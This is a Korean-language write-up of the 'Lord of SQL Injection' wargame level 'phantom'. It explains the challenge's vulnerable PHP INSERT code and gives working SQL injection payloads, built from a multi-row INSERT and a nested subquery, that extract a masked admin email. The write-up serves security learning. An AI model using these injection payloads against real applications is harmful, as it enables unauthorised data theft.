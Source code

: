 ```yaml
---
title: LOS - 29번 phantom
category: Lord of SQL Injection
---
```


# [29] phantom

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fzr5Q9%2FbtrpdnYOpmd%2FUYAy063HqOaz1BC4eWUew0%2Fimg.png">

## 풀이

no=1 레코드의 email을 찾는 문제이다.

<br>

먼저, 준비된 쿼리문을 보겠다.

```php
$query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
```

쿼리문으로부터 추측할 수 있는 바는 다음과 같다.

1. 첫 컬럼의 데이터로 0이 들어가는 것으로 보아, no는 AUTO_INCREMENT PRIMARY KEY로 추정할 수 있다.

2. 접속한 ip와 joinmail을 매칭하여 저장함을 알 수 있다.

<br>

다음은 표가 출력되는 과정을 보겠다.

```php
$rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
while(($result = mysqli_fetch_array($rows))){
if($result['no'] == 1) $result['email'] = "**************";
echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
}
echo "</table>";
```

1. no=1이거나, ip=[접속한 ip] 인 레코드를 표로 출력한다.

2. no=1인 경우, email을 \*\*\*\*\*\*\*\*\*\*\*\*\*\*로 바꾸어 표시한다.

<br>

목표는 no=1의 email을 알아내는 것이기에, 접근 방법을 고민해봤다.

preg_match를 보면 duplicate를 필터링하고 있는데, 이는 ON DUPLICATE UPDATE를 걸러내고자 하는 듯 했다.

ON DUPLICATE UPDATE는 PRIMARY KEY가 중복되는 레코드가 들어갈 시 기존의 레코드를 삭제하고 새로운 레코드가 그 자리를 대체하게끔 하는 구문이다.

만약 이 구문을 필터링하고 있지 않았다면, no=1인 새로운 레코드를 넣음으로써 문제를 간단히 해결할 수 있었을 것이다.

그래서 중복 레코드를 관리하는 다른 방법에 대해서도 찾아봤는데, 이 상황에서 쓸 수 있을 만한 방법은 보이지 않았다.

- ex) INSERT IGNORE, REPLACE INTO

<br>

따라서 여러개의 레코드를 동시에 INSERT하는 방법을 생각했다.

이는 다음과 같이 VALUES 뒤에 괄호로 묶인 여러개의 레코드를 나열함으로써 수행 가능하다.

```sql
INSERT INTO [테이블명] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

<br>

이후의 풀이 과정은 다음과 같다.

<br>

[1] 여러 개 INSERT + 서브쿼리 확인

```
?joinmail=choco'), (0, '[접속한 ip]', (select 1 where 1=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FWWusj%2FbtrpcOvEW0j%2FCKRrL1LG8KK45BCRzku1s1%2Fimg.png">

정상적으로 실행되어 choco와 1이 INSERT 된 것을 확인할 수 있다.

서브쿼리가 먹히는 것을 확인했으니, 그 자리에 no=1의 email을 넣어주면 **************로 바뀌기 전의 진짜 email을 쉽게 확인할 수 있을 것 같았다.

<br>

[2] 서브쿼리에 원하는 작업 적용해보기

```
?joinmail=choco'), (0, '[접속한 ip]', (select email from prob_phantom where no=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPyesx%2Fbtrpjw8kHkz%2FhtWK7skuvlKMQKtwDffWb0%2Fimg.png">

음... 안된다.

Syntax가 잘못되었나 싶어서 별의 별 베리에이션을 다 시도해봤지만 하나같이 다... 안됐다.

1=1, 1=2 등의 기본적인 조건이 적용된 서브쿼리는 문제없이 실행되었지만, prob_phantom 테이블안의 기존 레코드에 접근하려고 하기만 하면 아무 반응도 볼 수가 없었다.

한참 고통받다가... 문득 의심이 들었다.

동일 테이블 안의 레코드에는 일반적인 서브쿼리로 접근할 수 없나?

- [[SQL] 동일(같은) 테이블 서브쿼리](https://do-hansung.tistory.com/9)

그것이 맞았다...

그래서 페이로드를 아래와 같이 바꿔주었다.

<br>

[3] 최종 페이로드

```
?joinmail=choco'), (0, '[접속한 ip]', (select * from (select email from prob_phantom where no=1) as temp)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbGnBZW%2Fbtro8x2ffmQ%2FjoSP2d93AeOTRHD68HHL61%2Fimg.png">

결과적으로, no=1 레코드의 email은 `admin_secure_email@rubiya.kr` 임을 확인할 수 있었다.


## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbJxRyo%2FbtrpkuvB2eU%2FdKEOvRoSJ5Qb0r8Ydw1YI0%2Fimg.png">